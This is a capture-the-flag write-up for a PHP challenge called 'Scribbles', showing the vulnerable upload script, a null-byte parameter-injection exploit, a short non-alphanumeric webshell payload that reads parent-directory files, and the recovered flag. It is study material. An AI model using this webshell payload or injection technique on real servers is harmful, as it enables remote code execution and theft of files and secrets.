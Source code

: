 # Scribbles

## Problem

```php
<?php

require('config.php');

if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
  highlight_file(__FILE__);
  exit;
}
if (empty($_GET['action'])) {

  $data = $_POST['data'];
  $name = uniqid();

  $payload = "data=$data&name=$name";
  $post = http_build_query([
    'signature' => hash_hmac('md5', $payload, FLAG),
    'payload' => $payload,
  ]);

  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, "http://127.0.0.1" . $_SERVER['REQUEST_URI'] . "?action=log");
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
  curl_setopt($ch, CURLOPT_POST, 1);
  curl_setopt($ch, CURLOPT_POSTFIELDS, $post);

  echo curl_exec($ch);

} else {

  if (hash_hmac('md5', $_POST['payload'], FLAG) !== $_POST['signature']) {
    echo 'FAIL';
    exit;
  }

  parse_str($_POST['payload'], $payload);

  $target = 'files/' . time() . '.' . substr($payload['name'], -20);
  $contents = $payload['data'];
  $decoded = base64_decode($contents);
  $ext = 'raw';

  if (isset($payload['ext'])) {
    $ext = (
      ( $payload['ext'] == 'j' ) ? 'jpg' :
      ( $payload['ext'] == 'p' ) ? 'php' :
      ( $payload['ext'] == 'r' ) ? 'raw' : 'file'
    );
  }

  if ($decoded !== '') {
    $contents = $decoded;
    $target .= '.' . $ext;
  }

  if (strlen($contents) > 37) {
    echo 'FAIL';
    exit;
  }

  file_put_contents($target, $contents);

  echo 'OK';
}
```

If we request without action parameter, it will construct post payload and send request to self(with action parameter) by curl.

The `hash_hmac` key is `FLAG`, but we don't know the content.

So we can't directly forge the signature.

## Exploit

The vulnerability is on `$payload = "data=$data&name=$name";`

We can't control `$name` variable, but we can use `$data` to control `$name`

Like this: set `$data`: `xxx&name=new_name%00`

The NULL byte will truncate the original name.

Now we can control the file name.

We want to write a webshell and execute it.

But if `$decoded !== ''`, it will append extension to the filename.

So we need to find a way to set `$decoded` empty.

And we know that php's `base64_decode()` will output empty string if its input doesn't contain any valid character.
(valid character include `a-z`, `A-Z`, `0-9`, `+`, `/`, ...)

Our goal is writing a non valid character webshell and the length shold be less than 38.

There are some tips, we can use some arithmetic operation like `XOR`, `NOT`, `AND`, ... to construct the php code.

So if we set data to ``` <?=`something`;%26name%3Dz.php%00```, the `$decoded` will be empty and the name can be controled.

The content of the file will not be decoded, it is the original content: ``` <?=`something`; ```

We can run the php script now.

## Payload

``` data=<?=$_=~%9c%9e%8b;`$_ ../*>_`;%26name%3Dz.php%00```

`~%9c%9e%8b` is `cat`

so the payload will cat everthing in `../`, then write to `_`.

## Flag

config.php:

```php
<?php

set_time_limit(10);
define('FLAG', 'DCTF{7b39c8fcaef42b2f72d1f7d6f0686802bd9282f289f125281fd92c67572dd390}');

// added afterwards, not part of the challenge and keeps crashing apache because of a scenario
$_SERVER['REQUEST_URI'] = '/';
```
